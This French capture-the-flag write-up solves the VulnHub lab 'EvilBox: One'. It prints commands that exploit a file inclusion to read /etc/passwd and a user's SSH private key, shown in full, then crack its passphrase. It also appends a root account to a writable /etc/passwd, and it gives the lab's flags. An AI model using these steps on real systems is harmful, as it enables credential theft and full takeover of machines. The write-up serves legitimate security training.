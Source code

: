 ```yaml
---
title: "Solution du CTF EvilBox: One de VulnHub"
tags: [CTF,VulnHub]
---
```


[EvilBox: One](https://vulnhub.com/entry/evilbox-one,736/) était un CTF assez simple bien qu'il nécessite pas mal d'énumération initiale.

Nmap trouve tout de suite la présence d'un dossier nommé `secret` sous la racine web :

```
Nmap scan report for 192.168.56.209
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-enum: 
|   /robots.txt: Robots file
|_  /secret/: Potentially interesting folder
|_http-server-header: Apache/2.4.38 (Debian)
```

J'ai énuméré assez largement ce dossier avec différentes extensions :

```bash
feroxbuster -u http://192.168.56.209/secret/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -f -n -W 28 -x php,txt,zip,html,pdf
```

Il en est ressorti un script `evil.php` qui s'avère vide. Vraisemblablement, il attend qu'on lui passe un paramètre.

J'ai d'abord essayé de bruteforcer un nom de paramètre en passant la valeur `id` dans l'espoir d'avoir une exécution de commande, mais sans succès.

Finalement j'ai retenté en passant la valeur `/etc/passwd` comme sur le [CTF Insomnia]({% link _posts/2022-12-06-Solution-du-CTF-Insomnia-de-VulnHub.md %}) et cette fois ça a fonctionné :

```console
$ ffuf -u "http://192.168.56.209/secret/evil.php?FUZZ=/etc/passwd" -w wordlists/common_query_parameter_names.txt -fs 0
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.209/secret/evil.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: wordlists/common_query_parameter_names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

command                 [Status: 200, Size: 1398, Words: 13, Lines: 27]
:: Progress: [5699/5699] :: Job [1/1] :: 3966 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

On obtient effectivement le fichier `passwd` et je note un nom d'utilisateur :

```
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

À tout hasard je tente de charger sa clé privée SSH et c'est le jackpot :

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```

Vu qu'elle est protégée par une passphrase j'en extrais un hash avec `ssh2john.py` que je casse ensuite avec `JtR`.

```console
$ john --wordlist=wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
unicorn          (/tmp/id_rsa)     
1g 0:00:00:00 DONE (2023-05-18 21:27) 50.00g/s 62400p/s 62400c/s 62400C/s ramona..shirley
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Seulement l'authentification par clé ne semble pas acceptée, ssh demande directement un mot de passe pour le compte. `unicorn` n'est pas accepté.

J'ai converti directement la LFI en RCE à l'aide de [GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator).

Une fois un shell obtenu j'ai voulu mettre au clair cette histoire de clé SSH et il s'avère qu'en local tout fonctionne :

```console
www-data@EvilBoxOne:/home/mowree/.ssh$ ssh -i id_rsa mowree@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:cd9WCNmPY0i3zsZaPEV0qa7yp5hz8+TVNalFULd5CwM.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ id
uid=1000(mowree) gid=1000(mowree) grupos=1000(mowree),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
mowree@EvilBoxOne:~$ cat user.txt 
56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
```

Ne trouvant pas de fichiers particuliers pour `mowree` j'ai procédé à une énumération classique et en cherchant les fichiers de `root` que je peux modifier c'est une fois de plus le jackpot :

```console
mowree@EvilBoxOne:~$ find / -user root -writable -ls 2> /dev/null | grep -v /proc | grep -v /dev
   129803      4 drwxrwxrwt   9 root     root         4096 may 18 21:39 /tmp
   129824      4 drwxrwxrwt   2 root     root         4096 may 18 19:06 /tmp/.ICE-unix
   129818      4 drwxrwxrwt   2 root     root         4096 may 18 19:06 /tmp/.X11-unix
--- snip ---
     9949      0 drwxrwxrwt   4 root     root           80 may 18 19:06 /run/lock
   259743      4 -rw-rw-rw-   1 root     root         1398 ago 16  2021 /etc/passwd
   259840      4 drwxrwxrwt   4 root     root         4096 may 18 21:39 /var/tmp
   268084      4 drwx-wx-wt   2 root     root         4096 dic 17  2018 /var/lib/php/sessions
   259837      0 lrwxrwxrwx   1 root     root            9 ago 16  2021 /var/lock -> /run/lock
```

Le fichier `passwd` est modifiable, je vais donc me rajouter en compte `root` :

```console
mowree@EvilBoxOne:~$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd
mowree@EvilBoxOne:~$ su devloop
Contraseña: 
# id
uid=0(root) gid=0(root) grupos=0(root)
# cd /root
# ls
root.txt
# cat root.txt  
36QtXfdJWvdC0VavlPIApUbDlqTsBM
```

